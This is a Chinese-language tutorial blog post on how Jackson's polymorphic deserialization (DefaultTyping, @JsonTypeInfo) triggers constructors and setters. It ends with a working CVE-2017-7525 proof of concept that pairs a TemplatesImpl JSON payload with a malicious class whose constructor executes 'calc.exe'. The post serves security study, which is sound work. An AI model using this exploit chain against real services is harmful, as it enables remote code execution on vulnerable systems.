Jackson 是当前 Java 生态中最流行的，用来序列化和反序列化 json 的 Java 的开源框架，因其高性能、低内存占用及灵活的扩展性而被选为 Spring MVC 的默认解析器，在处理大文件时速度显著优于 Gson。

Jackson的核心模块由三个部分组成：

- jackson-core：核心包，提供基于"流模式"解析的相关 API，它包括 JsonPaser 和 JsonGenerator。 
- jackson-annotations，注解包，提供标准注解功能；
- jackson-databind ，数据绑定包， 基于前两者实现了基于"对象绑定" 解析的相关 API （ ObjectMapper ） 和"树模型" 解析的相关 API （JsonNode）

# Jackson常用的三个类

## ObjectMapper

Jackson 最常用的 API 就是基于"对象绑定" 的 ObjectMapper：

- JSON反序列化：ObjectMapper 可以从字符串、流或文件中解析 JSON，并创建表示已解析的 JSON 的 Java 对象。将JSON解析成java对象也被称为JSON反序列化Java对象。

- JSON序列化：ObjectMapper 可以从Java对象生成JSON。从Java对象生成JSON也被称为将Java对象序列成JSON。
- Object 映射器可以将 JSON 解析为自定义的类的对象，也可以解析置 JSON 树模型的对象

举个例子，还是用之前的User类

```java
package SerializeChains.JacksonNativeSer;

public class User {
    private String username;
    private String password;
    public User(){
        System.out.println("调用了无参构造方法");
    }

    public User(String username, String password){
        System.out.println("调用了有参构造方法");
        this.username = username;
        this.password = password;
    }

    public String getUsername() {
        System.out.println("调用了 getUsername 方法");
        return username;
    }
    public void setUsername(String username) {
        System.out.println("调用了 setUsername 方法");
        this.username = username;
    }

    public String getPassword(){
        System.out.println("调用了 getPassword 方法");
        return password;
    }

    public void setPassword(String password) {
        System.out.println("调用了 setPassword 方法");
        this.password = password;
    }
}
```

然后用ObjectMapper 进行序列化和反序列化

将Java对象序列化成JSON：

- writeValue()
- writeValueAsString()
- writeValueAsBytes()

将JSON反序列化成Java对象：

- readValue()

```java
package SerializeChains.JacksonNativeSer;

import com.fasterxml.jackson.databind.ObjectMapper;

public class Test {
    public static void main(String[] args) throws Exception {
        User user = new User();
        user.setUsername("user");
        user.setPassword("password");
        ObjectMapper mapper = new ObjectMapper();
        System.out.println("----------序列化操作开始----------");
        String json = mapper.writeValueAsString(user);
        System.out.println(json);
        System.out.println("----------反序列化操作开始----------");
        User user2 = mapper.readValue(json, User.class);
    }
}
/*
调用了无参构造方法
调用了 setUsername 方法
调用了 setPassword 方法
----------序列化操作开始----------
调用了 getUsername 方法
调用了 getPassword 方法
{"username":"user","password":"password"}
----------反序列化操作开始----------
调用了无参构造方法
调用了 setUsername 方法
调用了 setPassword 方法
*/
```

序列化的时候会调用getter方法，而反序列化的时候会调用setter方法和无参构造函数，具体为什么能触发getter方法，这个之前讲原生反序列化的时候就学过了，如何触发setter方法在后面会讲到

## JsonParser

Jackson JsonParser类是一个底层一些的JSON解析器。 它类似于XML的Java StAX解析器，差别是JsonParser解析JSON而不解析XML。需要关注的是，JsonParser的运行层级要低于ObjectMapper。这也使得JsonParser运行速度比ObjectMapper 更快，但是由于层级低，要操作的步骤相对更复杂。

使用JsonParser需要先创建一个JsonFactory，然后利用createParser()创建JSON解析器

举个例子

```java
        System.out.println("----------JsonParser反序列化操作----------");
        JsonFactory factory = new JsonFactory();
        JsonParser jsonParser = factory.createParser(json);
        System.out.println(jsonParser);

//com.fasterxml.jackson.core.json.ReaderBasedJsonParser@1ddc4ec2
```

可以看到此时输出了该解析器对象在内存中的地址，对于不同的JSON内容也是可以处理的

```java
JsonFactory factory = new JsonFactory();

// 从 String
JsonParser parser1 = factory.createParser(jsonString);

// 从 InputStream
JsonParser parser2 = factory.createParser(inputStream);

// 从 Reader
JsonParser parser3 = factory.createParser(reader);

// 从 File
JsonParser parser4 = factory.createParser(new File("data.json"));
```

由于JsonParser是 **Jackson Streaming API（流式 API）** ，而它会把 JSON 拆成一连串 **JsonToken**，我们需要通过移动游标去读取这些Token并进行处理

一些基础的Token值



```java
package SerializeChains.JacksonNativeSer;

import com.fasterxml.jackson.core.JsonFactory;
import com.fasterxml.jackson.core.JsonParser;
import com.fasterxml.jackson.core.JsonToken;

public class Test {
    public static void main(String[] args) throws Exception {
        String json = "{\"username\":\"user\",\"password\":\"password\"}";

        System.out.println("----------JsonParser反序列化操作----------");
        JsonFactory factory = new JsonFactory();
        JsonParser jsonParser = factory.createParser(json);
//        System.out.println(jsonParser);
        while(!jsonParser.isClosed()){
            JsonToken token = jsonParser.nextToken();

            if (token == null) break;

            System.out.print("当前Token类型: " + token);

            if (JsonToken.FIELD_NAME.equals(token)) {
                System.out.println(" -> 字段名: " + jsonParser.getCurrentName());
            } else if (JsonToken.VALUE_STRING.equals(token) || JsonToken.VALUE_NUMBER_INT.equals(token)) {
                System.out.println(" -> 值: " + jsonParser.getText());
            } else {
                System.out.println();
            }
        }
    }
}

/*
----------JsonParser反序列化操作----------
当前Token类型: START_OBJECT
当前Token类型: FIELD_NAME -> 字段名: username
当前Token类型: VALUE_STRING -> 值: user
当前Token类型: FIELD_NAME -> 字段名: password
当前Token类型: VALUE_STRING -> 值: password
当前Token类型: END_OBJECT
*/
```

对于不同的字段类型，JsonParser提供了不同的方法去获取值，例如如果字段是字符串类型，则可以通过getValueAsString()返回当前字段的值作为字符串，如果字段是整数类型，则可以通过getValueAsInt()返回当前字段的值作为int值，其他方法也有很多，就不一一列举了

JsonParser主要是用来处理反序列化的，但是可以看到这里并不会触发什么特别的方法，所以也就无需深究了

## JsonGenerator

和JsonParser相反，JsonGenerator主要是用来处理序列化的，能将Java对象序列化成JSON数据

同样的，使用JsonParser需要先创建一个JsonFactory，然后利用createGenerator()创建JSON生成器

```java
package SerializeChains.JacksonNativeSer;


import com.fasterxml.jackson.core.JsonEncoding;
import com.fasterxml.jackson.core.JsonFactory;
import com.fasterxml.jackson.core.JsonGenerator;

import java.io.ByteArrayOutputStream;

public class Test {
    public static void main(String[] args) throws Exception {
        JsonFactory factory = new JsonFactory();
        ByteArrayOutputStream outputStream = new ByteArrayOutputStream();
        JsonGenerator generator = factory.createGenerator(outputStream, JsonEncoding.UTF8);

        //表示开始一个 JSON 对象
        generator.writeStartObject();
        generator.writeStringField("username", "user");
        generator.writeStringField("password", "pass");

        //表示开始一个 JSON 数组
        generator.writeFieldName("Test");
        generator.writeStartArray();
        generator.writeString("aaa");
        generator.writeString("bbb");

        //表示结束一个 JSON 数组
        generator.writeEndArray();
        //表示结束一个 JSON 对象
        generator.writeEndObject();
        generator.close();


        System.out.println(outputStream.toString());

    }
}
//{"username":"user","password":"pass","Test":["aaa","bbb"]}
```

# Java多态

这个知识点之前我也有记录过：https://wanth3f1ag.top/2025/08/26/Java%E4%BB%8E0%E5%88%B01%E7%9A%84%E5%AD%A6%E4%B9%A0/?highlight=java#%E5%A4%9A%E6%80%81

简单来说，**Java多态就是通过同一个接口使用不同的实例从而可以执行不同的操作**，它阐述了一个事实：Java的实例方法调用是基于运行时的实际类型的动态调用，而非变量声明的类型

那么在反序列化中，如果需要对多态类的某个子类实例进行序列化和反序列化的时，我们该如何确保我们最终反序列化出来的实例是我们想要的特定子类的实例而非多态类的其他子类实例呢？这时候就需要进行多态问题的解决了——Jackson实现了JacksonPolymorphicDeserialization机制来解决这个问题。

# 多态问题的解决

**JacksonPolymorphicDeserialization即Jackson多态类型的反序列化**，在反序列化某个类对象的过程中，如果类的成员变量不是一个具体类型，比如Object，接口或抽象类，则可以在JSON字符串中指定其具体类型，jackson将根据指定类型生成具体类型的实例对象

简单而言，就是将具体的子类信息绑定在序列化的内容中，以便后续反序列化的时候能直接得到目标子类对象，实现方法有两种：

- DefaultTyping
- @JsonTypeInfo注解

## DefaultTyping

在com.fasterxml.jackson.databind.ObjectMapper.DefaultTyping中设置了四个值

```java
    public enum DefaultTyping {
        JAVA_LANG_OBJECT,
        OBJECT_AND_NON_CONCRETE,
        NON_CONCRETE_AND_ARRAYS,
        NON_FINAL,
        EVERYTHING
    }
```

### JAVA_LANG_OBJECT

当被序列化或反序列化的类里的属性被声明为一个Object类型时 会对该Object类型的属性进行序列化和反序列化 并明确规定类名（Object类本身也需要是一个可序列化/反序列化的类）

举个例子

我们在User里面加一个Object object属性及其对应的getter和setter方法：

```java
package SerializeChains.JacksonNativeSer;

public class User {
    private String username;
    private String password;
    private Object object;


    public User(){
        System.out.println("调用了无参构造方法");
    }

    public User(String username, String password, Object object){
        System.out.println("调用了有参构造方法");
        this.username = username;
        this.password = password;
        this.object = object;
    }

    public Object getObject() {
        System.out.println("调用了 getObject 方法");
        return object;
    }

    public void setObject(Object object) {
        System.out.println("调用了 setObject 方法");
        this.object = object;
    }

    public String getUsername() {
        System.out.println("调用了 getUsername 方法");
        return username;
    }
    public void setUsername(String username) {
        System.out.println("调用了 setUsername 方法");
        this.username = username;
    }

    public String getPassword(){
        System.out.println("调用了 getPassword 方法");
        return password;
    }

    public void setPassword(String password) {
        System.out.println("调用了 setPassword 方法");
        this.password = password;
    }
}
```

然后我们测试一下（Person类是我另外写的一个类，这里就不放了）

```java
package SerializeChains.JacksonNativeSer;


import com.fasterxml.jackson.databind.ObjectMapper;

public class Test {
    public static void main(String[] args) throws Exception {
        User user = new User("user","password",new Person());

        ObjectMapper mapper = new ObjectMapper();
        System.out.println("----------序列化操作开始----------");
        String json = mapper.writeValueAsString(user);
        System.out.println(json);
        System.out.println("----------反序列化操作开始----------");
        User user2 = mapper.readValue(json, User.class);
        System.out.println(user2);

    }
}
```



可以看到没有开启JAVA_LANG_OBJECT的时候并没有找到Person类这个对象，它直接抛弃了Person类的信息而自动反序列化成了LinkedHashMap，那我们开启试试呢？

```java
mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.JAVA_LANG_OBJECT);  //开启JAVA_LANG_OBJECT
```



可以看到此时object变量在反序列化的时候也反序列化了一个Person对象，也就是说在反序列化的时候，它会将类中属性夹带的其他类还原出来

### OBJECT_AND_NON_CONCRETE

当类中有Interface AbstractClass类时 对其进行序列化和反序列化，这也是enableDefaultTyping() 的默认无参数时的选项（要求和上面第一个是一样的）

手写一个接口

```java
package SerializeChains.JacksonNativeSer;

public interface Username {
    public void setUsername(String username);
    public String getUsername();
}
```

然后写一个继承了接口的实现类

```java
package SerializeChains.JacksonNativeSer;

public class Person implements Username {
    private String Username;
    @Override
    public void setUsername(String username){
        this.Username = Username;
    }

    @Override
    public String getUsername(){
        return Username;
    }
}
```

然后我们测试一下

```java
package SerializeChains.JacksonNativeSer;


import com.fasterxml.jackson.databind.ObjectMapper;

public class Test {
    public static void main(String[] args) throws Exception {
        User user = new User("user","password",new MyUsername());

        ObjectMapper mapper = new ObjectMapper();
        //mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.JAVA_LANG_OBJECT);  //开启JAVA_LANG_OBJECT
        System.out.println("----------序列化操作开始----------");
        String json = mapper.writeValueAsString(user);
        System.out.println(json);
        System.out.println("----------反序列化操作开始----------");
        User user2 = mapper.readValue(json, User.class);
        System.out.println(user2);

    }
}
```

没设置的时候



设置了之后



### NON_CONCRETE_AND_ARRAYS

支持 Arrays 类型

例如我们在Object类中存放User的对象数组

```java
package SerializeChains.JacksonNativeSer;


import com.fasterxml.jackson.databind.ObjectMapper;

public class Test {
    public static void main(String[] args) throws Exception {
        User[] users = new User[2];
        users[0] = new User();
        users[1] = new User();

        User user = new User("user","password",users);

        ObjectMapper mapper = new ObjectMapper();

        System.out.println("----------序列化操作开始----------");
        String json = mapper.writeValueAsString(user);
        System.out.println(json);
        System.out.println("----------反序列化操作开始----------");
        User user2 = mapper.readValue(json, User.class);
        System.out.println(user2);

    }
}
```



开启之后



### NON_FINAL

除了前面的所有特征外，包含即将被序列化的类里的全部、非final的属性，也就是相当于整个类、除`final`外的属性信息都需要被序列化和反序列化。

### 总结一下

其实这几个选项是从上至下逐渐扩大适用范围的，例如我这里借师傅文章https://xz.aliyun.com/news/12412的表

| **DefaultTyping类型**   | **描述说明**                                        |
| ----------------------- | --------------------------------------------------- |
| JAVA_LANG_OBJECT        | 属性的类型为Object                                  |
| OBJECT_AND_NON_CONCRETE | 属性的类型为Object、Interface、AbstractClass        |
| NON_CONCRETE_AND_ARRAYS | 属性的类型为Object、Interface、AbstractClass、Array |
| NON_FINAL               | 所有除了声明为final之外的属性                       |

还有一个EVERYTHING，我们也讲一下

### EVERYTHING

`EVERYTHING`是 Jackson 2.10 (2019年发布) 引入的第 5 个选项，是用来专门处理带final修饰符修饰的类

将User类加上final修饰符进行修饰并进行序列化和反序列化

```java
package SerializeChains.JacksonNativeSer;


import com.fasterxml.jackson.databind.ObjectMapper;

public class Test {
    public static void main(String[] args) throws Exception {

        User user = new User("user","password",new User());

        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.EVERYTHING);  //无参数开启OBJECT_AND_NON_CONCRETE
        System.out.println("----------序列化操作开始----------");
        String json = mapper.writeValueAsString(user);
        System.out.println(json);
        System.out.println("----------反序列化操作开始----------");
        User user2 = mapper.readValue(json, User.class);
        System.out.println(user2);

    }
}
```



## @JsonTypeInfo注解

@JsonTypeInfo注解是Jackson多态类型绑定的一种方式，支持下面5种类型的取值：

```java
@JsonTypeInfo(use = JsonTypeInfo.Id.NONE)
@JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
@JsonTypeInfo(use = JsonTypeInfo.Id.MINIMAL_CLASS)
@JsonTypeInfo(use = JsonTypeInfo.Id.NAME)
@JsonTypeInfo(use = JsonTypeInfo.Id.COSTOM)
@JsonTypeInfo(use = JsonTypeInfo.Id.DEDUCTION)
```

说白了就是给类中的属性添加注解

### JsonTypeInfo.Id.NONE

用于指定在序列化和反序列化过程中不包含任何类型标识 不使用识别码

写一个TestUser类

```java
package SerializeChains.JacksonNativeSer;

import com.fasterxml.jackson.annotation.JsonTypeInfo;

@JsonTypeInfo(use=JsonTypeInfo.Id.NONE)
public class TestUser {
    public String name = "testname";
}

```

写个测试类

```java
package SerializeChains.JacksonNativeSer;

import com.fasterxml.jackson.databind.ObjectMapper;

public class Test {
    public static void main(String[] args) throws Exception {
        A a = new A();
        ObjectMapper mapper = new ObjectMapper();
        System.out.println("----------序列化操作开始----------");
        String json = mapper.writeValueAsString(a);
        System.out.println(json);
    }
}
class A {
    public Object object = new TestUser();
}
```



和没用注解的时候是一样的

这里的话其实分两种，一种是在类上，一种是在字段上：

在类上相当于给这个类打上一个标签，无论这个类在哪被使用，Jackson 都会应用这个规则。

而在字段上相对来说会更灵活，它控制的是“容器”的行为，其优先级是最高的。

例如把标签打在A类的object字段上而非TetsUser类上

```java
class A {
    @JsonTypeInfo(use=JsonTypeInfo.Id.NONE)
    public Object object = new TestUser();
}
```

此时只有在这个 object字段上，强制禁用类型标识，起到一个局部生效的效果而不会影响对应类本身

### JsonTypeInfo.Id.CLASS

使用完全限定类名做识别

将注解改成JsonTypeInfo.Id.CLASS再运行看看



可以看到此时多了一个全限定类名信息，并且反序列化的时候object属性也是具体的TestUser类对象，所以该注解能成功对指定类型进行序列化和反序列化

乍一看发现，好像和Fastjson中的`@type`注解有点像，如果在Jackson反序列化的时候使用了JsonTypeInfo.Id.CLASS注解修饰的话，我们貌似可以通过@class的方式指定相关类进行相关调用？

### JsonTypeInfo.Id.MINIMAL_CLASS



@c`替代了`@class，看起来就是将上面的@class的形式给简写了，按照官方的描述是缩短了相关类名：https://github.com/FasterXML/jackson-annotations

不过效果和JsonTypeInfo.Id.CLASS是差不多的，能够成功对指定类型进行序列化和反序列化，都可以用于指定相关类并进行相关的调用。

### JsonTypeInfo.Id.NAME



在反序列化的时候报错了，输出可以看到，object属性中多了@type但去掉了指定类的具体包名，因此在后续的反序列化会因为找不到相关类而报错，也就是说这个设置值是不能被反序列化利用的。

### JsonTypeInfo.Id.COSTOM

用户自定义识别码，由@JsonTypeIdResolver对应，但是需要用户自己写一个解析器并配合@JsonTypeIdResolver使用来决定如何处理类



手动写一个解析器

```java
package SerializeChains.JacksonNativeSer;

import com.fasterxml.jackson.annotation.JsonTypeInfo;
import com.fasterxml.jackson.databind.DatabindContext;
import com.fasterxml.jackson.databind.JavaType;
import com.fasterxml.jackson.databind.jsontype.impl.TypeIdResolverBase;

public class MyCustomResolver extends TypeIdResolverBase {

    @Override
    public JsonTypeInfo.Id getMechanism() {
        return JsonTypeInfo.Id.CUSTOM;
    }

    // 【序列化调用】 Java Object -> JSON String
    // 决定 JSON 中那个 property 字段的值是什么
    @Override
    public String idFromValue(Object value) {
        return idFromValueAndType(value, value.getClass());
    }

    @Override
    public String idFromValueAndType(Object value, Class<?> suggestedType) {
        // 自定义逻辑：给类名加上前缀
        return "TEST_" + suggestedType.getSimpleName();
    }

    // 【反序列化调用】 JSON String -> Java Type
    // 核心安全点：这里决定了能不能把字符串转成类
    @Override
    public JavaType typeFromId(DatabindContext context, String id) {
        System.out.println("Custom Resolver resolving ID: " + id);

        if ("TEST_TestUser".equals(id)) {
            return context.constructType(TestUser.class);
        }

        return null;
    }
}
```

### JsonTypeInfo.Id.DEDUCTION

其核心逻辑为（Type Deduction based on property existence），不需要任何显式的类型字段（如 @class、type 等），Jackson 会检查 JSON 里有哪些字段，然后对比各个子类的定义，进行调用

## 最终得到的利用条件

经过上面的测试和分析可以看出，可以触发Jackson反序列化漏洞的情况：

- 使用enableDefaultTyping()设置DefaultTyping的值
- @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
- @JsonTypeInfo(use = JsonTypeInfo.Id.MINIMAL_CLASS)

把@JsonTypeInfo注解测试的时候用的TestUser类加上构造函数和setter和getter方法重新测一下

```java
package SerializeChains.JacksonNativeSer;

public class TestUser {
    public String name ;

    public TestUser(){
        System.out.println("调用了无参构造方法");
    }

    public TestUser(String name) {
        System.out.println("调用了有参构造方法");
        this.name = name;
    }

    public void setName(String name) {
        System.out.println("调用了 setName 方法");
        this.name = name;
    }

    public String getName() {
        System.out.println("调用了 getName 方法");
        return name;
    }

}
```

然后测试类也修改一下



所以我们可以知道，在以上三种情况下进行Jackson反序列化的时候都会触发该属性的类的构造方法和setter方法，接下来我们分析一下为什么会触发setter方法

# Jackson反序列化如何触发setter

打个断点在readValue()调用处进行调试



先是进行一个空校验，检查JSON字符串content是否为null

`_typeFactory.constructType(valueType)`，Jackson把`Class<T>`转化成更高级的类型描述JavaType，然后进入readValue函数

```java
    public <T> T readValue(String content, JavaType valueType)
        throws JsonProcessingException, JsonMappingException
    {
        _assertNotNull("content", content);
        try { // since 2.10 remove "impossible" IOException as per [databind#1675]
            return (T) _readMapAndClose(_jsonFactory.createParser(content), valueType);
        } catch (JsonProcessingException e) {
            throw e;
        } catch (IOException e) { // shouldn't really happen but being declared need to
            throw JsonMappingException.fromUnexpectedIOE(e);
        }
    } 
```

使用 `JsonFactory` 创建一个新的 JSON **解析器**并调用_readMapAndClose()方法将JSON内容“映射”成 `valueType` 对象，也就是把 JSON 字符串 变成 Jackson 能理解的 JsonToken 流，我们跟进看看

```java
    protected Object _readMapAndClose(JsonParser p0, JavaType valueType)
        throws IOException
    {
        try (JsonParser p = p0) {
            final Object result;
            final DeserializationConfig cfg = getDeserializationConfig();
            final DefaultDeserializationContext ctxt = createDeserializationContext(p, cfg);
            JsonToken t = _initForReading(p, valueType);
            if (t == JsonToken.VALUE_NULL) {
                // Ask JsonDeserializer what 'null value' to use:
                result = _findRootDeserializer(ctxt, valueType).getNullValue(ctxt);
            } else if (t == JsonToken.END_ARRAY || t == JsonToken.END_OBJECT) {
                result = null;
            } else {
                result = ctxt.readRootValue(p, valueType,
                        _findRootDeserializer(ctxt, valueType), null);
                ctxt.checkUnresolvedObjectId();
            }
            if (cfg.isEnabled(DeserializationFeature.FAIL_ON_TRAILING_TOKENS)) {
                _verifyNoTrailingTokens(p, ctxt, valueType);
            }
            return result;
        }
    }
```

获取反序列化配置，然后创建反序列化上下文，检查 json 开头读取 token，如果不为 null 就获取反序列化器，再进行反序列化

跟进readRootValue函数



检查是否开启了 UNWRAP_ROOT_VALUE 配置，默认是未启动的

```java
    @Override
    public Object deserialize(JsonParser p, DeserializationContext ctxt) throws IOException
    {
        // common case first
        if (p.isExpectedStartObjectToken()) {
            if (_vanillaProcessing) {
                return vanillaDeserialize(p, ctxt, p.nextToken());
            }
            // 23-Sep-2015, tatu: This is wrong at some many levels, but for now... it is
            //    what it is, including "expected behavior".
            p.nextToken();
            if (_objectIdReader != null) {
                return deserializeWithObjectId(p, ctxt);
            }
            return deserializeFromObject(p, ctxt);
        }
        return _deserializeOther(p, ctxt, p.currentToken());
    }
```

先是判断当前 token 是否是对象的开始标记，`_vanillaProcessing` 为 true采用简化的反序列化方法，如果 Bean 非常简单（没有自定义构造器、没有 @JsonIdentityInfo、没有复杂的继承关系），Jackson 就会把这个标记设为 true



`final Object bean = _valueInstantiator.createUsingDefault(ctxt);`会调用对象的无参构造函数创建一个空的 Java 对象实例，再遍历JSON对象中的所有字段并设置值



检查JSON 指针是否指向 null 值，然后检查是否有多态配置，然后再反序列化




分别对数组和普通对象的JSON进行了相应的处理

```java
public Object deserialize(JsonParser p, DeserializationContext ctxt) throws IOException {
    if (p.isExpectedStartObjectToken()) {
        if (this._vanillaProcessing) {
            return this.vanillaDeserialize(p, ctxt, p.nextToken());
        } else {
            p.nextToken();
            return this._objectIdReader != null ? this.deserializeWithObjectId(p, ctxt) : this.deserializeFromObject(p, ctxt);
        }
    } else {
        return this._deserializeOther(p, ctxt, p.currentToken());
    }
}
```

判断 JsonParser 当前是否停在 JSON 对象的开始符号 START_OBJECT 上，然后检查 Bean 是否复杂进行分流

```java
protected final Object _deserializeOther(JsonParser p, DeserializationContext ctxt, JsonToken t) throws IOException {
    if (t != null) {
        switch (t) {
            case VALUE_STRING:
                return this.deserializeFromString(p, ctxt);
            case VALUE_NUMBER_INT:
                return this.deserializeFromNumber(p, ctxt);
            case VALUE_NUMBER_FLOAT:
                return this.deserializeFromDouble(p, ctxt);
            case VALUE_EMBEDDED_OBJECT:
                return this.deserializeFromEmbedded(p, ctxt);
            case VALUE_TRUE:
            case VALUE_FALSE:
                return this.deserializeFromBoolean(p, ctxt);
            case VALUE_NULL:
                return this.deserializeFromNull(p, ctxt);
            case START_ARRAY:
                return this._deserializeFromArray(p, ctxt);
            case FIELD_NAME:
            case END_OBJECT:
                if (this._vanillaProcessing) {
                    return this.vanillaDeserialize(p, ctxt, t);
                }

                if (this._objectIdReader != null) {
                    return this.deserializeWithObjectId(p, ctxt);
                }

                return this.deserializeFromObject(p, ctxt);
        }
    }
```

当JSON数据不是标准的java对象时，根据 JSON 的不同数据类型，分发到对应的处理方法。

在多态反序列化的某些复杂场景下，比如当 TypeDeserializer 已经利用 TokenBuffer 处理完了所有数据，或者解析器序列正好把指针留在了结束符 } 上时，Jackson 会发现当前已经没有字段可读了。为了完成反序列化流程，它会进入这个方法并匹配到`case END_OBJECT`分支，然后调用 vanillaDeserialize。此时，Jackson 会直接实例化对象并立即跳过字段填充循环，最终返回一个新建的对象实例，接着再次触发`prop.deserializeAndSet(p, ctxt, bean);`



最终触发到 setter 方法

## 反序列化调用栈

```java
at org.Polymorphism.JsonTypeInfo.EvilDeduction.setCmd(EvilDeduction.java:19)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.fasterxml.jackson.databind.deser.impl.MethodProperty.deserializeAndSet(MethodProperty.java:141)
at com.fasterxml.jackson.databind.deser.BeanDeserializer.vanillaDeserialize(BeanDeserializer.java:313)
at com.fasterxml.jackson.databind.deser.BeanDeserializer._deserializeOther(BeanDeserializer.java:214)
at com.fasterxml.jackson.databind.deser.BeanDeserializer.deserialize(BeanDeserializer.java:186)
at com.fasterxml.jackson.databind.jsontype.impl.AsPropertyTypeDeserializer._deserializeTypedForId(AsPropertyTypeDeserializer.java:144)
at com.fasterxml.jackson.databind.jsontype.impl.AsDeductionTypeDeserializer.deserializeTypedFromObject(AsDeductionTypeDeserializer.java:140)
at com.fasterxml.jackson.databind.jsontype.impl.AsPropertyTypeDeserializer.deserializeTypedFromAny(AsPropertyTypeDeserializer.java:213)
at com.fasterxml.jackson.databind.deser.std.UntypedObjectDeserializer$Vanilla.deserializeWithType(UntypedObjectDeserializer.java:781)
at com.fasterxml.jackson.databind.deser.impl.FieldProperty.deserializeAndSet(FieldProperty.java:147)
at com.fasterxml.jackson.databind.deser.BeanDeserializer.vanillaDeserialize(BeanDeserializer.java:313)
at com.fasterxml.jackson.databind.deser.BeanDeserializer.deserialize(BeanDeserializer.java:176)
at com.fasterxml.jackson.databind.deser.DefaultDeserializationContext.readRootValue(DefaultDeserializationContext.java:323)
at com.fasterxml.jackson.databind.ObjectMapper._readMapAndClose(ObjectMapper.java:4674)
at com.fasterxml.jackson.databind.ObjectMapper.readValue(ObjectMapper.java:3629)
at com.fasterxml.jackson.databind.ObjectMapper.readValue(ObjectMapper.java:3597)
at org.Polymorphism.JsonTypeInfo.DemoIdDeduction.main(DemoIdDeduction.java:14)
```

# 漏洞原理

由之前的结论知道，当使用的JacksonPolymorphicDeserialization机制配置有问题时，Jackson反序列化就会调用属性所属类的构造函数和setter方法。

而如果该构造函数或setter方法存在危险操作，那么就存在Jackson反序列化漏洞。

# 链子

## CVE-2017-7525（基于TemplatesImpl利用链）

### 影响版本

Jackson 2.6系列 < 2.6.7.1

Jackson 2.7系列 < 2.7.9.1

Jackson 2.8系列 < 2.8.8.1

JDK版本为1.7

### 依赖

```xml
    <dependency>
      <groupId>com.fasterxml.jackson.core</groupId>
      <artifactId>jackson-databind</artifactId>
      <version>2.7.9</version>
    </dependency>
    <dependency>
      <groupId>com.fasterxml.jackson.core</groupId>
      <artifactId>jackson-core</artifactId>
      <version>2.7.9</version>
    </dependency>
    <dependency>
      <groupId>com.fasterxml.jackson.core</groupId>
      <artifactId>jackson-annotations</artifactId>
      <version>2.7.9</version>
    </dependency>
```

### 链子寻找

根据以往对TemplatesImpl利用链的操作

```java
public static Object getTemplates(byte[] bytes) throws Exception {
    Templates templates = new TemplatesImpl();
    setValue(templates, "_bytecodes", new byte[][]{bytes});
    setValue(templates, "_name", "wanth3f1ag");
    setValue(templates, "_tfactory", new TransformerFactoryImpl());
    return templates;
}
```

其实不难知道这三个必要属性都是通过setter方法去设置的，并且这三个属性任意一个为null都会导致空指针异常错误抛出





_tfactory默认为null，但在较早的时候不需要 _tfactory 属性，那如何触发getOutputProperties呢？

关注到`SetterlessProperty#deserializeAndSet`



对于变量`outputProperties`并没有对应的`setter`方法，此时他就会去调用`getter`方法，也就是开始了getOutputProperties()链，这就是该利用链能被成功触发的原因。

### 最终POC

```java
package SerializeChains.JacksonNativeSer;

import com.fasterxml.jackson.databind.ObjectMapper;
import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;

import java.io.*;
import java.nio.file.Files;
import java.nio.file.Paths;

public class TemplatesImpl_POC {
    public static void main(String[] args) throws IOException {
        String exp = readClassStr("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\JacksonNativeSer\\calc.class");
        String jsonInput = aposToQuotes("{\"object\":['com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',\n" +
                "{\n" +
                "'transletBytecodes':['"+exp+"'],\n" +
                "'transletName':'wanth3f1ag',\n" +
                "'outputProperties':{}\n" +
                "}\n" +
                "]\n" +
                "}");

        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();    //三个条件之一

        mapper.readValue(jsonInput, Test1.class);   //反序列化

    }

    public static String aposToQuotes(String json){
        return json.replace("'","\"");
    }

    public static String readClassStr(String cls) throws IOException {
        byte[] bytes = Files.readAllBytes(Paths.get(cls));
        return Base64.encode(bytes);  // 你现在用的这个 Base64
    }
}

class Test1 {
    public Object object;
}
```

恶意类

```java
package SerializeChains.JacksonNativeSer;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class calc extends AbstractTranslet {

    public calc() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }

    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] haFndlers) throws TransletException {

    }

    public static void main(String[] args) throws Exception {
        calc c = new calc();
    }
}
```



我后面换成高版本的JDK试了一下，运行失败并抛出报错



意思就是`_tfactory` 字段为null导致抛出空指针报错。在jdk1.8某个版本后，defineTransletClasses()中新增了对`_tfactory`的处理，但是无法给它赋值，所以会抛出异常，导致poc无法生效。

函数调用栈

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:431)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:57)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:601)
at com.fasterxml.jackson.databind.deser.impl.SetterlessProperty.deserializeAndSet(SetterlessProperty.java:105)
at com.fasterxml.jackson.databind.deser.BeanDeserializer.vanillaDeserialize(BeanDeserializer.java:260)
at com.fasterxml.jackson.databind.deser.BeanDeserializer.deserialize(BeanDeserializer.java:125)
at com.fasterxml.jackson.databind.jsontype.impl.AsArrayTypeDeserializer._deserialize(AsArrayTypeDeserializer.java:110)
